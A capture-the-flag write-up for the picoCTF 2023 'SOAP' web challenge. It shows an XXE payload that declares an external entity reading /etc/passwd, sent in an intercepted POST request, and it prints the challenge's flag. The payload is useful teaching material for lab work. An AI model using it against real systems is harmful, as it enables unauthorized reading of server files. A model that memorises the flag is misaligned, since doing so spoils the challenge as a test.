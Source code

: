 # SOAP #

## Overview ##

100 points

Category: [web](../)

Tags: `picoCTF 2023` `Web Exploitation` `XXE`

## Description ##

The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?

Additional details will be available after launching your challenge instance.

## Solution ##

The challenge has the tag `XXE` so we probably leak the `/etc/passwd` file by sending bad XML. The website has some buttons that we can press, giving more detail about what we click on.

![website](images/start.png)

When we click on the buttons, we send a POST request to the server.

![post requests](images/postRequests.png)

The payload of these POST requests is:

```
<?xml version="1.0" encoding="UTF-8"?>
	<data>
		<ID>
			x
		</ID>
	</data>
```

Where `x` varies from 1 to 3 depending on the button pressed. 
Now we can intercept the POST request in BurpSuite and modify its contents to

```
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE data [ <!ENTITY bad SYSTEM "file:///etc/passwd" > ]>
	<data>
		<ID>
			&bad;
		</ID>
	</data>
```


![contents of passwd](images/foundFlag.png)


```
picoCTF{XML_3xtern@l_3nt1t1ty_540f4f1e}
```

## References ##

[On XXE](https://portswigger.net/web-security/xxe#what-is-xml-external-entity-injection)

[On XML](https://aws.amazon.com/what-is/xml/)
